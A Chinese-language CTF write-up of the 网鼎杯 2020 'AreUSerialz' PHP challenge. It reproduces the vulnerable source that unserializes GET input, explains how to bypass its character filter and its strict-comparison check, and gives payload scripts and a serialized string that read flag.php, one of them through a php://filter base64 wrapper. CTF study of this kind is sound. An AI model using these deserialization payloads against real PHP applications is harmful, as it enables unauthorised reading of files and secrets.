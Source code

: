 # web

## [网鼎杯 2020 青龙组]AreUSerialz

1. 代码审计

   ```php
   <?php
   
   include("flag.php");
   
   highlight_file(__FILE__);
   
   class FileHandler {
   
       protected $op;
       protected $filename;
       protected $content;
   
       function __construct() {
           $op = "1";
           $filename = "/tmp/tmpfile";
           $content = "Hello World!";
           $this->process();
       }
   
       public function process() {
           if($this->op == "1") {
               $this->write();
           } else if($this->op == "2") {
               $res = $this->read();
               $this->output($res);
           } else {
               $this->output("Bad Hacker!");
           }
       }
   
       private function write() {
           if(isset($this->filename) && isset($this->content)) {
               if(strlen((string)$this->content) > 100) {
                   $this->output("Too long!");
                   die();
               }
               $res = file_put_contents($this->filename, $this->content);
               if($res) $this->output("Successful!");
               else $this->output("Failed!");
           } else {
               $this->output("Failed!");
           }
       }
   
       private function read() {
           $res = "";
           if(isset($this->filename)) {
               $res = file_get_contents($this->filename);
           }
           return $res;
       }
   
       private function output($s) {
           echo "[Result]: <br>";
           echo $s;
       }
   
       function __destruct() {
           if($this->op === "2")
               $this->op = "1";
           $this->content = "";
           $this->process();
       }
   
   }
   
   function is_valid($s) {
       for($i = 0; $i < strlen($s); $i++)
           if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
               return false;
       return true;
   }
   
   if(isset($_GET{'str'})) {
   
       $str = (string)$_GET['str'];
       if(is_valid($str)) {
           $obj = unserialize($str);
       }
   
   }
   ```

2. 简单梳理下流程，首先通过`GET`方法传递参数，然后进行字符串ascii码检测，通过后进行反序列化给`obj`变量，构造魔术方法就不用看了，因为对象最后会被销毁，会执行析构函数魔术方法，然后判断对象成员`op`的值是否等于2，进行判断使用写入文件还是读取文件。

3. 这道题因为写了`include("flag.php")`，那肯定是读取文件，并且是相对路径，那么我们需要构造`op=2`来读取文件。

4. 这里需要绕过两个地方检测

   ```shell
   1.is_valid()函数规定字符的ASCII码必须是32-125，而protected属性在序列化后会出现不可见字符\00*\00，转化为ASCII码不符合要求。
   #PHP7.1以上版本对属性类型不敏感，public属性序列化不会出现不可见字符，可以用public属性来绕过
   
   2.process()方法中是==,而__destruct()魔术方法中是===,当反序列化后如果是op="2",就会重新赋值为"1"，跳转到写文件方法操作
   #利用php弱类型比较，2==“2”(true) 2==="2"(false)进行绕过
   ```

5. 构造payload直接读取`flag.php`

   ```php
   <?php
   class FileHandler {
   
       public $op=2;
       public $filename="flag.php";
       public $content="123";
       }
   
   $a=new FileHandler();
   echo serialize($a);
   //O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";s:3:"123";}
   ```

6. 还可以用`php://filter`伪协议进行读取

   ```php
   <?php
    
   class FileHandler {
    
       public $op = 2;
       public  $filename = "php://filter/read=convert.base64-encode/resource=flag.php";
       public  $content = "123";
    
   }
    
   $a = new FileHandler();
   $b = serialize($a);
   echo $b;
    
   ?>
   ```

7. 利用工具提交

   ![](img/image-20210616230510694.png)

   ![](img/image-20210616230529663.png)

8. 因为buu环境的原因，可以直接读取`flag.php`，看了真实比赛的wp还要读取系统配置文件、容器配置文件来猜flag的绝对路径。以后来填坑。

